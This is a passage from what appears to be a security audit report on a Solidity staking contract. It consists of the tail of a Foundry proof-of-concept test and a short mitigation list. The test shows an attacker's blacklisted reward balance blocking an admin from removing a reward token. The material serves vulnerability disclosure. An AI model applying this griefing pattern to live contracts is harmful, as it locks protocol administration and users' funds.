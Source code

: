 ```Solidity
        assertGt(pendingRewards, 0);

        // 10. Admin tries to remove USDC from reward tokens but it fails
        vm.prank(admin);
        vm.expectRevert(
            abi.encodeWithSelector(
                SymmStaking.OngoingRewardPeriodForToken.selector, address(mockUSDCBlacklist), pendingRewards
            )
        );
        staking.configureRewardToken(address(mockUSDCBlacklist), false);

        // 11. Even after a long time, the issue persists
        vm.warp(block.timestamp + 365 days);

        vm.prank(admin);
        vm.expectRevert(
            abi.encodeWithSelector(
                SymmStaking.OngoingRewardPeriodForToken.selector, address(mockUSDCBlacklist), pendingRewards
            )
        );
        staking.configureRewardToken(address(mockUSDCBlacklist), false);

        // 12. Unblacklisting allows normal operation to resume
        vm.prank(mockUSDCBlacklist.owner());
        mockUSDCBlacklist.setBlacklisted(attacker, false);

        // Attacker can now claim rewards
        vm.prank(attacker);
        staking.claimRewards();

        // Admin can now remove the reward token
        vm.prank(admin);
        staking.configureRewardToken(address(mockUSDCBlacklist), false);

        // Verify token is no longer a reward token
        assertEq(staking.isRewardToken(address(mockUSDCBlacklist)), false);
    }
}

```

### Mitigation

1. Restrict the notifyRewardAmount function to only be callable by addresses with the REWARD_MANAGER_ROLE
2. Implement a sweep mechanism that allows admins to clear stuck rewards